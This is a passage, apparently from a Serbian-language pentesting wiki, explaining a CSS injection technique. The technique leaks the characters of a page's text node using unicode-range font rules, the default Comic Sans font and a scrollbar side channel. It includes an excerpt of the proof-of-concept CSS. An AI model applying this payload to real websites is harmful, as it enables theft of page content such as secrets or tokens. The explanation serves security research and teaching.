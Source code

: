 ### Izvlačenje teksta iz čvora (II): otkrivanje karakterskog skupa sa podrazumevanim fontom (bez potrebe za spoljnim sredstvima) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>

**Reference:** [PoC korišćenjem Comic Sans od strane @Cgvwzq & @Terjanq](https://demo.vwzq.net/css2.html)

Ovaj trik je objavljen u ovom [**Slackers thread**](https://www.reddit.com/r/Slackers/comments/dzrx2s/what\_can\_we\_do\_with\_single\_css\_injection/). Karakterski skup korišćen u tekstnom čvoru može biti otkriven **korišćenjem podrazumevanih fontova** instaliranih u pregledaču: nisu potrebni spoljni -ili prilagođeni- fontovi.

Koncept se vrti oko korišćenja animacije kako bi se postepeno proširila širina `div`-a, omogućavajući da se po jedan znak prebaci iz 'sufiksa' dela teksta u 'prefiks' deo. Ovaj proces efikasno deli tekst na dva dela:

1. **Prefiks**: Početna linija.
2. **Sufiks**: Naredne linije.

Faze tranzicije karaktera bi izgledale ovako:

**C**\
ADB

**CA**\
DB

**CAD**\
B

**CADB**

Tokom ove tranzicije, **unicode-range trik** se koristi kako bi se identifikovao svaki novi znak dok se pridružuje prefiksu. To se postiže prebacivanjem fonta na Comic Sans, koji je primetno viši od podrazumevanog fonta, što posledično pokreće vertikalnu traku za pomeranje. Pojava ove trake za pomeranje indirektno otkriva prisustvo novog znaka u prefiksu.

Iako ovaj metod omogućava detekciju jedinstvenih znakova kako se pojavljuju, ne precizira koji se znak ponavlja, samo da se ponavljanje desilo.

{% hint style="info" %}
U osnovi, **unicode-range se koristi za otkrivanje znaka**, ali kako ne želimo da učitavamo spoljni font, moramo pronaći drugi način.\
Kada se **znak pronađe**, dodeljuje mu se prethodno instaliran **Comic Sans font**, koji **uvećava** znak i **pokreće traku za pomeranje** koja će **otkriti pronađeni znak**.
{% endhint %}

Proverite kod izdvojen iz PoC-a:

````css
/* comic sans is high (lol) and causes a vertical overflow */
@font-face{font-family:has_A;src:local('Comic Sans MS');unicode-range:U+41;font-style:monospace;}
@font-face{font-family:has_B;src:local('Comic Sans MS');unicode-range:U+42;font-style:monospace;}
@font-face{font-family:has_C;src:local('Comic Sans MS');unicode-range:U+43;font-style:monospace;}
@font-face{font-family:has_D;src:local('Comic Sans MS');unicode-range:U+44;font-style:monospace;}
@font-face{font-family:has_E;src:local('Comic Sans MS');unicode-range:U+45;font-style:monospace;}
@font-face{font-family:has_F;src:local('Comic Sans MS');unicode-range:U+46;font-style:monospace;}
@font-face{font-family:has_G;src:local('Comic Sans MS');unicode-range:U+47;font-style:monospace;}
@font-face{font-family:has_H;src:local('Comic Sans MS');unicode-range:U+48;font-style:monospace;}
@font-face{font-family:has_I;src:local('Comic Sans MS');unicode-range:U+49;font-style:monospace;}
@font-face{font-family:has_J;src:local('Comic Sans MS');unicode-range:U+4a;font-style:monospace;}
@font-face{font-family:has_K;src:local('Comic Sans MS');unicode-range:U+4b;font-style:monospace;}
@font-face{font-family:has_L;src:local('Comic Sans MS');unicode-range:U+4c;font-style:monospace;}
@font-face{font-family:has_M;src:local('Comic Sans MS');unicode-range:U+4d;font-style:monospace;}
@font-face{font-family:has_N;src:local('Comic Sans MS');unicode-range:U+4e;font-style:monospace;}
@font-face{font-family:has_O;src:local('Comic Sans MS');unicode-range:U+4f;font-style:monospace;}
@font-face{font-family:has_P;src:local('Comic Sans MS');unicode-range:U+50;font-style:monospace;}
````